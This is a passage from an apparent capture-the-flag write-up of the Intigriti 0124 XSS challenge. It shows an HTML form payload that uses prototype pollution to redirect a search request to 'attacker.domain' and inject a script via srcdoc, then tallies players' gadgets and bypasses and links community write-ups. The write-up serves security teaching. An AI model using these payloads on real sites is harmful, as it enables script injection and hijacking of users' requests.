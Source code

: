 #### baseURL (attacker domain)

The `baseURL` can be polluted to a URL owned by the attacker, ensuring the `POST /search` will be directed there instead.

```html
<form id="search">
    <input name="__proto__[baseURL]" value=https://attacker.domain>
    <input name="__proto__[SRCDOC]" value="<script>alert(1)</script>" />
</form>
```

The `attacker.domain` should deliver a JSON object representing a repository. This example can be found in the repos.json file.

```json
{
    "owner": {
        "login": "cameronmcefee",
        "id": 72919,
        "node_id": "MDQ6VXNlcjcyOTE5",
        "avatar_url": "https://avatars.githubusercontent.com/u/72919?v=4",
        "gravatar_id": "",
        "url": "https://api.github.com/users/cameronmcefee"
    },
    "homepage": "https://example.com"
}
```

## Player Submission Analysis

Here's a table that breaks down all the \[unintended] payloads we received. You can mix and match, i.e. pick one row from each column, to construct your attack 🤓 The values in brackets represent the number of players that utilised that technique.

| Initial approach                        | CSPP gadget             | jQuery attr bypass |
| --------------------------------------- | ----------------------- | ------------------ |
| Pollute 'owner' and 'homepage' (**24**) | srcdoc (**21**)         | array (**18**)     |
| Pollute 'baseURL' (**3**)               | src (**1**)             | uppercase (**16**) |
| Clobber 'q' (**10**)                    | onload (**13**)         | other (**3**)      |
|                                         | ontransitionend (**1**) |                    |
|                                         | onerror (**1**)         |                    |

## Community Writeups

1. [rodriguezjorgex](https://medium.com/@rodriguezjorgex/how-i-passed-the-intigriti-0124-challenge-b6c2d1cd1b7b)
2. [jorianwoltjer](https://jorianwoltjer.com/blog/p/hacking/intigriti-xss-challenge/intigriti-january-xss-challenge-0124)
3. [realansgar](https://realansgar.dev/writeups/intigriti-xss-0124)
4. [smickovskid](https://damjan-smickovski.dev/blog/intigriti_challenge_0124_writeup)
5. [arturssmirnovs](https://github.com/arturssmirnovs/challenge-0124.intigriti.io-january-xss-challenge)
6. [sebastianosrt](https://gist.github.com/sebastianosrt/804b9145bf491ba76107d26d9869bdd9)
7. [sudistark](https://github.com/Sudistark/CTF-Writeups/blob/main/Intigriti-XSS-Challenges/2024/Jan.md)
8. [siss3l](https://gist.github.com/Siss3l/20d49beaa5fcfd025ff5fe9d2ed8724a)
